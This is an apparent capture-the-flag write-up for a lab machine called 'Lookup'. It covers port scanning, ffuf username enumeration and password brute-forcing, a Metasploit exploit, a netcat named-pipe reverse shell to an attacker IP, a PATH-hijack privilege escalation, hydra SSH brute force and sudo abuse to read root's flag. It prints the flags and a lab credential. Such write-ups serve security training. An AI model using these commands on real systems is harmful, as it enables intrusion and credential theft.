


# Lookup Writeup

- Let's start with a nmap scan `nmap -p- 10.10.78.164`
    - `-p-` denotes search for all ports

    

- Finding more information on the discovered ports - `nmap -sC -sV -p 22,80 10.10.78.164`
    - `-sC` is used to perform a script scan
    - `-sV` is used to detect the versions of the running services.

    

***

- Now let's look into the webpage - `http://10.10.78.164` [for this to open on your browser, make sure to add `10.10.78.164     lookup.thm` to */etc/hosts* file]

- Running `dirb` to find any directories which we can use `dirb http://10.10.78.164 -w /usr/share/wordlists/rockyou.txt`
- No directory found

    

***

- On logging in, we get different responses for different username and password
    - *admin:admin*

    

    - *test:test*

    

- So from the above we can conclude that this login page validates the username as well. Now we can try figuring out valid user names exploiting this functionality.

- Let's use the tool called `ffuf`
    ``` bash
    ffuf -H 'Content-Type: application/x-www-form-urlencoded' -u 'http://lookup.thm/login.php' -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d 'username=FUZZ&password=test' -mc all -t 100 -fs 74 
    ```
        - `mc` used to match HTTP status codes
        - `t` number of concurrent threads
        - `fs` Filter HTTP response size
    - We get another username *jose*

    

- Now let's try getting the password for *jose*

    ```bash
    ffuf -H 'Content-Type: application/x-www-form-urlencoded' -u 'http://lookup.thm/login.php' -w /usr/share/wordlists/rockyou.txt -X POST -d 'username=jose&password=FUZZ' -mc all -t 100 -fs 62
    ```
    We get the password

    

**Since I restarted the machine the IP address is changed to - 10.10.65.107**

***

- On logging in using the gathered credentials *jose:password123*, we are navigated to *files.lookup.thm*, let's add this as well in the */etc/hosts* file

    

- Searching about the software we find it is a *web file manager*

    

- Using `msfconsole` we can see if there is any exploit for this version of the software

    
    

- Now that we got a meterpreter connection, we can get the shell by typing the command `shell` and as this shell is unstable let us transfer it to out attacking machine:
    - On the unstable shell
    `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc YOUR_IP 4444 >/tmp/f`    

    - On attacking system
    `nc -lvnp 4444`
    ```bash
    # once the connection is extablished to stabilise the shell we can execute the following
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    export TERM=xterm 
    # Background the shell with “CTRL + Z”.
    stty raw -echo; fg
    ```
- Once we have a stable shell let's check what are the processes that can be run as sudo user `find / -type f -perm -u=s -ls 2>/dev/null`

    

    - Let's run */usr/sbin/pwm*

    
    - Here it runs the `id` command and checks for the .passwords file.

- Let's manipulate this by doing a path hijack.
    - As this id command is not getting the actual path we can use this to out advantage

    

    - When the `/usr/sbin/pwm` file runs it searches for `id` binary from the `PATH` variable, so by adding our folder [/tmp in this case as it is writable by all users] which contains a different file called `id` we can succesfully escalate our user privilege. 

    

- Store these passwords in a seperate file and we can use this to get bruteforce our way in. Using hydra we can try getting the password for ssh `hydra -l think -P passwords lookup.thm -vV ssh -f`

    

    - Now with the credentials we can login to ssh `ssh think@lookup.thm`

    

1. What is the user flag?
> 38375fb4dd8baa2b2039ac03d92b820e

***

- Now from this user let us escalate our privilege to root user. By running the `sudo -l` command we can see what commands can be run by think as sudo user.

    

- So the look command workds similar to grep

    

    - Let's use this command to find the root flag, which is mostly located in `/root/root.txt`. But we are not sure of which exact number is there in the file content. So we can create a loop for this task.
    ```bash
    for i in {1..9}; do sudo look $i /root/root.txt; done
    ```

    

2. What is the root flag?
> 5a285a9f257e45c68bb6c9f9f57d18e8
